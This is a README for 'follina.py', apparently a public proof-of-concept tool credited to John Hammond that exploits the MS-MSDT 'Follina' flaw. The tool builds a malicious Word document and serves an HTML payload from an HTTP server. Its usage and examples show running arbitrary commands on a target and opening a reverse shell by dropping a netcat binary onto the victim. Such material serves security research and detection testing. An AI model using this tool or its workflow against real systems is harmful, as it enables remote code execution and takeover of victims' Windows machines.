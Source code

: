 # MS-MSDT "Follina" Attack Vector

> John Hammond | May 30, 2022

--------------

Create a "Follina" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

![Screenshot](https://user-images.githubusercontent.com/6288722/171033876-dbe73e3e-0a3a-436a-91d8-7fa77a5c1ace.png)

# Usage

```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]
                  [--reverseport REVERSEPORT] [--netcat NETCAT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
  --reverseport REVERSEPORT, -r REVERSEPORT
                        port to serve reverse shell on
  --netcat NETCAT, -nc NETCAT
                        your available NetCat path

```

# Examples

Pop `calc.exe`:

```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```
$ python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```
$ python3 follina.py -r 9001 -nc ../nc64.exe
```

![Reverse Shell](https://user-images.githubusercontent.com/6288722/171037880-03a73d6a-4606-4c42-abcb-ee52a9e669c6.png)
